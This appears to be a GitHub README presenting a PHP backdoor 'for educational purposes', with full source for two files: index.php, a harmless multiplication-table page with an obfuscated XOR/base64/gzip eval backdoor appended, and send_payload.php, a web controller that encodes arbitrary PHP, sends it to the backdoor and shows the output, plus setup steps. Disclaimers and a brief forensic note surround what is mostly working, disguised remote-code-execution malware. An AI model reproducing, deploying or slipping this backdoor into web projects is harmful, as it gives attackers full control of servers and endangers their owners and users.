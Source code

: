 # PHP Backdoor Example (For Educational Purposes Only)

## ⚠️ WARNING

This repository demonstrates a **PHP backdoor** and a **payload sender** for **educational and security research purposes only**.  
**Do not use this code on any system you do not own or have explicit permission to test.**  
Leaving this code on a public server is a severe security risk.

---

## 1. What is This?

This project contains two files:

- `index.php`: A PHP script with a hidden backdoor that allows remote code execution via specially crafted POST requests.
- `send_payload.php`: A web interface to send PHP code to the backdoor and display the output.

---

## 2. How Does the Backdoor Work?

### `index.php`

```php
<?php
echo "<h3>Table of 2</h3>";
for ($i = 1; $i <= 10; $i++) {
    echo "2 x $i = " . (2 * $i) . "<br>";
}
?>

<?php
$k="3b712de4";
$kh="8137572f3849";
$kf="aabd5666a4e3";
$p="wowzoun0lxqf0Qwj";
function x($t,$k){
    $c=strlen($k);$l=strlen($t);$o="";
    for($i=0;$i<$l;){
        for($j=0;($j<$c&&$i<$l);$j++,$i++){
            $o.=$t[$i]^$k[$j];
        }
    }
    return $o;
}
if (@preg_match("/$kh(.+)$kf/",@file_get_contents("php://input"),$m)==1) {
    @ob_start();
    @eval(@gzuncompress(@x(@base64_decode($m[1]),$k)));
    $o=@ob_get_contents();
    @ob_end_clean();
    $r=@base64_encode(@x(@gzcompress($o),$k));
    print("$p$kh$r$kf");
}
?>
```

**How it works:**

- **Trigger:** Activated by a POST request containing a payload between `$kh` and `$kf`.
- **Payload:** The payload is base64-encoded, XOR-encrypted, and gzcompressed PHP code.
- **Execution:** The payload is decoded, decrypted, decompressed, and executed with `eval()`.
- **Response:** The output is captured, compressed, XOR-encrypted, base64-encoded, and returned between `$p$kh` and `$kf`.

---

## 3. How Does the Payload Sender Work?

### `send_payload.php`

```php
<?php

// --- CONFIGURE ---
$target_url = 'http://localhost/index.php'; // Change if needed
$key = "3b712de4";
$kh = "8137572f3849";
$kf = "aabd5666a4e3";
$p = "wowzoun0lxqf0Qwj";

// --- XOR FUNCTION ---
function xor_string($data, $key) {
    $output = '';
    $dataLen = strlen($data);
    $keyLen = strlen($key);
    for ($i = 0; $i < $dataLen; $i++) {
        $output .= $data[$i] ^ $key[$i % $keyLen];
    }
    return $output;
}

// --- FORM HANDLER ---
$output = '';
$display_mode = isset($_POST['display_mode']) ? $_POST['display_mode'] : 'text';
if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['php_code'])) {
    $php_code = $_POST['php_code'];

    // Encode payload
    $compressed = gzcompress($php_code);
    $xored = xor_string($compressed, $key);
    $encoded = base64_encode($xored);
    $payload = $kh . $encoded . $kf;

    // Send payload
    $options = [
        'http' => [
            'method'  => 'POST',
            'header'  => "Content-Type: text/plain\r\n",
            'content' => $payload,
        ]
    ];
    $context  = stream_context_create($options);
    $response = file_get_contents($target_url, false, $context);

    // Extract and decode output
    if (preg_match("/$p$kh(.+)$kf/s", $response, $m)) {
        $resp_encoded = $m[1];
        $resp_xored = base64_decode($resp_encoded);
        $resp_decompressed = @gzuncompress(xor_string($resp_xored, $key));
        if ($display_mode === 'html') {
            $output = $resp_decompressed;
        } else {
            $output = htmlspecialchars($resp_decompressed);
        }
    } else {
        $output = "No valid response received.";
    }
}
?>

<!DOCTYPE html>
<html>
<head>
    <title>Backdoor Payload Sender</title>
</head>
<body>
    <h2>Send PHP Code to Backdoor</h2>
    <form method="post">
        <textarea name="php_code" rows="8" cols="60" placeholder="Enter PHP code here"><?php
            if (isset($_POST['php_code'])) echo htmlspecialchars($_POST['php_code']);
        ?></textarea><br>
        <label>
            <input type="radio" name="display_mode" value="text" <?php if ($display_mode === 'text') echo 'checked'; ?>>
            Show as Text
        </label>
        <label>
            <input type="radio" name="display_mode" value="html" <?php if ($display_mode === 'html') echo 'checked'; ?>>
            Show as HTML
        </label>
        <br>
        <button type="submit">Send & Get Output</button>
    </form>
    <?php if ($output !== ''): ?>
        <h3>Output:</h3>
        <pre><?php echo $output; ?></pre>
    <?php endif; ?>
</body>
</html>
```

**How it works:**

- Enter PHP code in the textarea and submit.
- The script sends the payload, receives the response, decodes it, and displays the output below the form.
- You can choose to display the output as plain text or rendered HTML.

---

## 4. How to Use

1. **Start your local server** (e.g., XAMPP, WAMP, etc.).
2. Place `index.php` and `send_payload.php` in your web root (e.g., `htdocs`).
3. Open `send_payload.php` in your browser.
4. Enter PHP code in the textarea (e.g., `<?php echo "Hello"; ?>`).
5. Choose output mode:  
   - **Text:** Output is HTML-escaped.  
   - **HTML:** Output is rendered as HTML.
6. Click **Send & Get Output** to execute the code via the backdoor and see the result.

---

## 5. Security Notice

- **Remove these files immediately after testing.**
- This backdoor allows arbitrary code execution and is a critical security risk.
- Never deploy this code on a production or public server.

---

## 6. Forensic/Recovery Use

If you find this code on your server, remove it and change all credentials.  
Scan your server for other backdoors or malicious files.

---